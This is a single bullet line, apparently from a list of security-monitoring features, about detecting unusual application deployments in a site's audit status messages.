- Detect unusual application deployments in the site's Audit Status Messages